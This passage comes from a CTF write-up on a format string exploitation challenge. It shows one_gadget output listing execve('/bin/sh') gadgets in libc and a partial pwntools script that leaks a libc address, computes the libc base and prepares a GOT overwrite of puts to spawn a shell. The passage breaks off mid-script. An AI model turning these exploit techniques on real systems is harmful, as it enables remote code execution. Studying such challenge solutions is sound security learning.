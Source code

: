 ```
root@b1a0c5b0df97 /pwn# one_gadget libc.so.6 
0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1147 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

Whenever I was writing this script during the CTF I got stuck for a long time trying to write the address of libc system into the puts pointer. This would be a fine idea, but system expects a command string to be pushed onto the stack before execution (preferably "/bin/sh"). With the payload below, I could not figure out how to make this happen, until I tried the [one gadget](https://github.com/david942j/one_gadget) gem which helps to find one gadget RCE. Running the gem on the libc.so.6 file gives the output seen above, and the second gadget is found to work in this case (through some trial and error). The [objdump](https://linux.die.net/man/1/objdump) tool would have also worked for this, but one_gadget makes the job much easier.

{% highlight python %}
from pwn import *

r = remote('shell.actf.co', 20201)

# format string to leak <__libc_start_main+240>
r.sendline(';%27$p;')

# __libc_start_main address
libc_start_main = int(r.recvuntil('check out?').split(';')[1], 16) - 240

# libc base address
libc_base = libc_start_main - 132928

# location of pointer to <puts@plt>
puts = 0x601018

# system("/bin/sh") gadget location
system = libc_base + 0x4526a

# split into three halfword sections of system gadget address
# only three necessary because address usually starts with 0x0000...
p1 = (system & 0xffff)
p2 = (system & 0xffff0000) >> 16
p3 = (system & 0xffff00000000) >> 32

ps = {p1: '21', p2: '22', p3: '23'}
